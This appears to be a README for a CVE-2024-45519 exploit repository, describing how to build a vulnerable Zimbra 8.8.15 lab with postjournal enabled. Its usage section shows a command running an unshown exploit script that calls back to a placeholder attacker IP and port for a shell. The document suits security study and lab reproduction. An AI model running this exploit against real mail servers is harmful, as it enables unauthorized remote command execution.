

# CVE-2024-45519 - Zimbra Postjournal Exploit Setup 🛠️



## Description ⚠️
CVE-2024-45519 is a vulnerability in Zimbra Collaboration (ZCS) that allows unauthenticated users to execute commands through the `postjournal` service. This guide walks you through setting up a lab environment to reproduce the issue and execute the exploit.

## Affected Versions 🐛
- **Joule**: version 8.8.15  
- **Kepler**: version 9.0.0  
- **Daffodil**: versions 10.0.x before 10.0.9  
- **Daffodil**: version 10.1.0  

## Lab Setup 🖥️

1. **Prepare the test environment**  
   Make sure you're running Ubuntu 20.04.6 LTS (Focal Fossa) on your lab machine.  
   Example test environment: Ubuntu 20.04.6 LTS.

2. **Download Zimbra**  
   Run the following commands to download and extract the Zimbra Collaboration package:
   ```bash
   sudo su
   wget https://files.zimbra.com/downloads/8.8.15_GA/zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   tar -xvzf zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   cd zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220
   ```

3. **Configure hostname**  
   Set the hostname to `zimbra.labo`:
   ```bash
   hostnamectl set-hostname zimbra.labo
   ```

4. **Install Zimbra**  
   Follow the installation guide here 👉 [Zimbra Installation Guide](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software).  
   Do **not** use Zimbra's package repository when prompted. Select **No** for that option.

5. **Replace the vulnerable `postjournal` binary**  
   Kill the running `postjournal` process and replace the binary with the vulnerable one:
   ```bash
   sudo pkill postjournal
   dpkg-deb -x packages/zimbra-core_8.8.15.GA.4177.UBUNTU20.64_amd64.deb /tmp/zimbra-core
   sudo cp /tmp/zimbra-core/opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal
   ```

6. **Enable and restart Zimbra services**  
   Log in as the `zimbra` user and enable the `postjournal` service:
   ```bash
   sudo su - zimbra
   zmlocalconfig -e postjournal_enabled=true
   zmcontrol restart
   ```

## Exploit Usage 🚀

Once the lab is set up and running, you can use the exploit to take advantage of the vulnerability.

### Steps:

1. **Prepare the exploit**  
   Ensure the exploit script (which we assume you've already prepared) targets the correct IP address and port.

2. **Run the exploit**  
   Execute the exploit to target the vulnerable Zimbra instance. For example, using your script:
   ```bash
   python exploit.py <target> -lh <attacker-ip> -lp <attacker-port> -p <smtp-port>
   ```

3. **Enjoy your shell**  
   Once the exploit successfully connects, you'll have command execution on the Zimbra server! 🎉

## References 🔗
- [Zimbra CVE-2024-45519 - Cyberveille eSante](https://cyberveille.esante.gouv.fr/alertes/zimbra-cve-2024-45519-2024-10-02)  
- [Zimbra Remote Code Execution Blog - ProjectDiscovery](https://blog.projectdiscovery.io/zimbra-remote-code-execution/)  


## Disclaimer ⚠️

This exploit and guide are for educational purposes only. Use this information responsibly and only on systems you have explicit permission to test. Unauthorized exploitation of systems is illegal and unethical. The authors and contributors are not responsible for any misuse or damage caused by this information.